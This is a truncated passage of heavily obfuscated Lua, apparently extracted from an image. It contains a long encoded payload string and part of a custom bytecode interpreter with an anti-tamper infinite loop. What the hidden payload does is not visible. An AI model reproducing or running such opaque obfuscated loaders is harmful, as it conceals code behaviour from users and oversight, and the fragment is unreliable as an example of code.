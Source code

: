 h=a(n,"Pki5u^{ASN0Ts_nQT{5n__AskTsA^NQSNA0iuu_^AAkTTQ^AhiNk5Q_kAEkSuNkiSAi{s^uuTTi5ikNS5iQnA^mk_T^in0TSiQN_N^HsN{AinNSkuQs{u{is055udNSpnTn{^_nAs550_^0ekANNsT{0MNA05iTS^AQ{ni05uint{uk^Tiu_nq0<5__5AAoQT0innnSSiAsA{QnkT5^inQkss#^0QNNSST5Tn_SSn^^ikNNaiQsn_^SekQT0^ssi^{Q^_A{^k0A-uSnNN5i{_i^nkG0_5nn0A0i^s5{SQS0/u^NnAik_T0kT_^NQ5sN{5^_uu^nNS5iiskTu{uk{Tk)_ATkQTN^SQAn0N0usnAu^Tk^0nQSni_5S_0{T2_TT^TQSSn5is0Zi05u._QAnAs75^TQnNN5S_A__A{ikTSQisS5>sQ{n{kkuTu^_0NSn5a_i{0suT0u5QuupiQ_%{skW0L5_n_A_kTA{{sQ_0A50Nk^_knT_^T_QNBi_SN^n_0{{uAQ_u5:Ss{{u%uTX5nnS5nQ5Ni5k_d5{n^Auk5TiNu{^Ei0i5s_N^nR_TT^kQAN0k5s^Az3Aukn^AQknT_T#{Wki0_?sAAi{T^^uQ5n^Nuui_SAnik{s5AQNS0isss{0_5AikkSiiSs4^QQnQu0k5_siSSiAsiQ{Jn5u_5AiANius5^n2v{{Q0NN{_kkT0uNQuN{iANz{uFQ0se__nSsiuSNAJQ_NN5nnuS5kns^iUsk{*QnNn5__nAnikT0^0QTN{50_SA^kATS^uQiSsA{nuTu^i0^{{kN00i__TN55T0iAkk^0A^i_N{kikNs^0nQT55cn0A0i_s^AN>kA{LQsQS_i0TsuiQQ{NkA0uA0QnSA^T+iS^5_TNAQQNT^5QsQ^^aAsu5{_5NNiAn_{^knsn{5ss5SnsA{k^Tu00^5Q00u5S_sAussTk^NQTuSk0sNAAc_T5^{0Qunn_^nO0Ns5T_0_SSuQ0sn^SlnNA5nTSA5iAsu^8Ss5_s0{NRSQ0T0u{Q{NAiTsQ{ATQNku?nnSui0s_i{s^{u_^A0k5Ti^k{tQi^QQnnUA500^snSSAi{eSss{Se^0suNn_S^__0Q^nHs0iuSnTSNn5SiikNi5N_G{Q}nBiTQ^IQsNAiN_u{T0^uTn5SiikKS_5Ai#_S5uvnnkNTS^AQ{N^^i_5AikkTd{knnS_isss{0HN0S^NQ{S^ius5{^ck065QQOS5ksTT^0 TNS5A_{NTiuT5^iQkN{iQsQ{_kA0TunQiSSiAs{{TDu0uuinkSAkQTn^_Q_NT50_NS0i5T{^^Qu0A5i_kADiksiu_nsSTu}sN{S3ATSuAnuS5ii_k{=QQNnuQ__ATk0TN{AQAN{5^_uSnkiTk^FQ*Sni_ssA_i90NuSnASAi^su{5kuTiuJ_QAni{Ts^TQ0sNu5_AA{k^s9^5QuNkuin^{n8_0s^un0SNiSQAA5=^0uu5nSSkinTQA//^Ns5T_0SikSTA^{i^0u55_iAkku0Q^Qn_Nnins0{N;ST u{n^Su^5sn{k}6NQu^__NkkTssA5QSNA5{_nAuk5TiSk*5SQins_ANpTT_uNQ0N_i{s^{u%T0iukn1NkiuT_^_QT0u5N_SAA5{Ts^uQuNi5i_hS{*nTQ{^nTS_iNs_{A;{0^uuQuSiiisa{iQnN_5s_TA_kNTS^AQ{N^5{_5AiikTYuQnnSnisss{0ONTSuAn{S^i^s5{ipk");local e=0;r.cvYzGwPY(function()r.yHdeBoGP()e=e+1 end)local function n(l,n)if n then return e end;e=l+e;end local l,e,a=u(0,u,n,h,r.geMGOtvq);local function o()local l,e=r.geMGOtvq(h,n(1,3),n(5,6)+2);n(2);return(e*256)+l;end;local _=true;local _=0 local function z()local d=e();local n=e();local t=1;local d=(l(n,1,20)*(2^32))+d;local e=l(n,21,31);local n=((-1)^l(n,32));if(e==0)then if(d==_)then return n*0;else e=1;t=0;end;elseif(e==2047)then return(d==0)and(n*(1/0))or(n*(0/0));end;return r.YTvIIgyL(n,e-1023)*(t+(d/(2^52)));end;local b=e;local function y(e)local l;if(not e)then e=b();if(e==0)then return'';end;end;l=r.IVdgpCmT(h,n(1,3),n(5,6)+e-1);n(e)local n=""for e=(1+_),#l do n=n..r.IVdgpCmT(l,e,e)end return n;end;local _=#r.v_rtuCcg(c('\49.\48'))~=1 local n=e;local function m(...)return{...},r.cAnATlRG('#',...)end local function g()local n={};local h={};local s={};local c={s,h,nil,n};local n=e()local u={}for d=1,n do local l=a();local e;if(l==2)then e=(a()~=#{});elseif(l==1)then local n=z();if _ and r.tDfBWnqi(r.v_rtuCcg(n),'.(\48+)$')then n=r.jImJWHjs(n);end e=n;elseif(l==0)then e=y();end;u[d]=e;end;for n=1,e()do h[n-(#{1})]=g();end;c[3]=a();for c=1,e()do local n=a();if(l(n,1,1)==0)then local r=l(n,2,3);local a=l(n,4,6);local n={o(),o(),nil,nil};if(r==0)then n[t]=o();n[f]=o();elseif(r==#{1})then n[t]=e();elseif(r==k[2])then n[t]=e()-(2^16)elseif(r==k[3])then n[t]=e()-(2^16)n[f]=o();end;if(l(a,1,1)==1)then n[d]=u[n[d]]end if(l(a,2,2)==1)then n[t]=u[n[t]]end if(l(a,3,3)==1)then n[f]=u[n[f]]end s[c]=n;end end;return c;end;local function p(l,n,e)local d=n;local d=e;return c(r.tDfBWnqi(r.tDfBWnqi(({r.cvYzGwPY(l)})[2],n),e))end local function en(z,n,a)local function nn(...)local o,nn,_,p,h,e,c,y,b,k,g,l;local n=0;while-1<n do if 2<n then if 4>=n then if 4>n then y={};b={...};else k=r.cAnATlRG('#',...)-1;g={};end else if n>=1 then repeat if n<6 then l=u(7);break;end;n=-2;until true;else n=-2;end end else if n<1 then o=u(6,25,1,40,z);nn=u(6,45,2,91,z);else if n~=1 then e=-41;c=-1;else _=u(6,34,3,36,z);h=m p=0;end end end n=n+1;end;for n=0,k do if(n>=_)then y[n-_]=b[n+1];else l[n]=b[n+1];end;end;local n=k-_+1 local n;local u;local function r(...)while true do end end while true do if e<-40 then e=e+42 end n=o[e];u=n[j];if 14>u then if 6<u then if 9<u then if u<=11 then if 11>u then l[n[d]]=a[n[t]];else e=n[t];end else if u>11 then repeat if 13~=u then l(n[d],n[t]);break;end;for u=0,6 do if 2<u then if 4<u then if u>5 then l[n[d]][n[t]]=n[f];else l[n[d]]=a[n[t]];e=e+1;n=o[e];end else if u>1 then repeat if u~=4 then l[n[d]]=a[n[t]];e=e+1;n=o[e];break;end;l[n[d]][n[t]]=n[f];e=e+1;n=o[e];until true;else l[n[d]]=a[n[t]];e=e+1;n=o[e];end end else if u>=1 then if u>1 then l[n[d]][n[t]]=n[f];e=e+1;n=o[e];else l[n[d]]=a[n[t]];e=e+1;n=o[e];end else l[n[d]][n[t]]=n[f];e=e+1;n=o[e];end end end until true;else for u=0,6 do if 2<u then if 4<u then if u>5 then l[n[d]][n[t]]=n[f];else l[n[d]]=a[n[t]];e=e+1;n=o[e];end else if u>1 then repeat if u~=4 then l[n[d]]=a[n[t]];e=e+1;n=o[e];break;end;l[n[d]][n[t]]=n[f];e=e+1;n=o[e];until true;else l[n[d]]=a[n[t]];e=e+1;n=o[e];end end else if u>=1 then if u>1 then l[n[d]][n[t]]=n[f];e=e+1;n=o[e];else l[n[d]]=a[n[t]];e=e+1;n=o[e];end else l[n[d]][n[t]]=n[f];e=e+1;n=o[e];end end end end end else if u>7 then if u==8 then local e=n[d];local d=l[n[t]];l[e+1]=d;l[e]=d[n[f]];else e=n[t];end else do return end;end end else if u>2 then if u<=4 then if-1<=u then repeat if